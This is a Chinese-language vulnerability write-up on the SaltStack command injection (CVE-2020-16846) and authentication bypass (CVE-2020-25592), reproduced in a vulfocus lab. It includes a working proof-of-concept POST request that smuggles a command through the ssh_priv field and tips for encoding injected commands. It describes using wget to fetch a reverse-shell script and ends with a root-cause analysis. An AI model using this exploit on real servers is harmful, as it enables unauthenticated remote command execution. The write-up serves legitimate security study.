






# SaltStack 远程命令执行漏洞（CVE-2020-16846）by [FlyYoung729](https://github.com/FlyYoung729)

## 一、漏洞详情
SaltStack是一个分布式运维系统，在互联网场景中被广泛应用，有以下两个主要功能：
1、配置管理系统，能够将远程节点维护在一个预定义的状态（例如，确保安装特定的软件包并运行特定的服务）
2、分布式远程执行系统，用于在远程节点上单独或通过任意选择标准来执行命令和查询数据

CVE-2020-16846: 命令注入漏洞
未经过身份验证的攻击者通过发送特制请求包，可通过Salt API注入ssh连接命令导致命令执行。

CVE-2020-25592: 验证绕过漏洞
Salt 在验证eauth凭据和访问控制列表ACL时存在一处验证绕过漏洞。未经过身份验证的远程攻击者通过发送特制的请求包，可以通过salt-api绕过身份验证，并使用salt ssh连接目标服务器。结合CVE-2020-16846能造成命令执行。

## 二、漏洞环境
该漏洞环境已整合到vulfocus靶场中，可一键直接启动。
步骤：
1、搜索CVE-2020-16846，点击启动（配合CVE-2020-25592验证绕过漏洞进行命令执行）

2、访问https://ip:port，看到该页面则证明靶场启动成功


也同样可以在dockerhub仓库中搜索vulfocus/saltstack找到我们上传的镜像
https://hub.docker.com/r/vulfocus/saltstack-cve_2020_16846

1、将镜像下载到本地环境
`docker pull vulfocus/saltstack-cve_2020_16846:latest`
2、启动镜像
`docker run -d -p 22:22 -p 4505:4505 -p 4506:4506 -p 8000:8000 vulfocus/saltstack-cve_2020_16846:latest`
3、访问https://ip:8000

## 三、漏洞复现
通过分析后构造poc
```
POST /run HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

token=123123&client=ssh&tgt=*&fun=a&roster=flyoung&ssh_priv=aaa|payload
```

dnslog成功回显

注意：
1、拼接命令中不能含有空格，需要将空格替换为%20，命令最后需要以分号结束，即%3b
2、回显可以使用wget或curl命令，ping命令执行不成功

在服务器上新建一个脚本，内容为反弹shell语句。


使用wget下载到目标靶场中


脚本成功下载


执行脚本

注意：
脚本执行需要用/bin/bash命令执行，如果使用sh命令则需要将aaa修改为/，因为cmd文件都下载在根目录，aaa其实为路径

成功回弹并拿到flag


根目录下就会多了一些ssh_priv值的文件/文件夹


2.5分get到手


## 四、漏洞分析

**CVE-2020-16846**
salt/client/ssh/shell.py
使用ssh-keygen命令生成ssh的密钥，path变量直接使用format放入cmd中，使用subprocess.call方法执行，该方法会默认将列表第一个项作为命令，后续作为命令参数执行。配置了shell=True参数会直接将整个字符串用shell解释，相当于同样的语句放在终端中运行。该漏洞修复之后shell默认为false。path参数可控即可造成命令执行。


漏洞版本与修复版本文件对比


**CVE-2020-25592**
入口分析
SaltStack利用cherrypy和tornado两个框架实现了api。
salt/netapi/rest_cherrypy/app.py
cherrypy配置


LowDataAdapter类调用了salt.netapi.NetapiClient类。


跟进ret = self.api.run(chunk)中的run函数


low为外部传入的参数，salt.utils.args.format_call方法将参数赋值给kwargs。
当攻击者将client参数值设为"ssh"时，会直接调用salt/netapi/init.py中的NetapiClient.ssh()。


salt.client.ssh.client.SSHClient，初始化函数没有ssh相关类调用，继续跟进cmd_sync()函数。
salt/client/ssh/client.py


salt/client/ssh/client.py



salt/client/ssh/init.py


## 五、Golang-PoC
提交利用goby编写的poc和exp，审核通过后就能获取到GoEXP计划的专属奖金，还可以集成到自己的goby中测试

运行后成功访问服务器81端口


## 参考链接：

https://paper.seebug.org/1398/

https://www.windylh.com/2020/11/18/SaltStack%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E(CVE-2020-16846)%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/


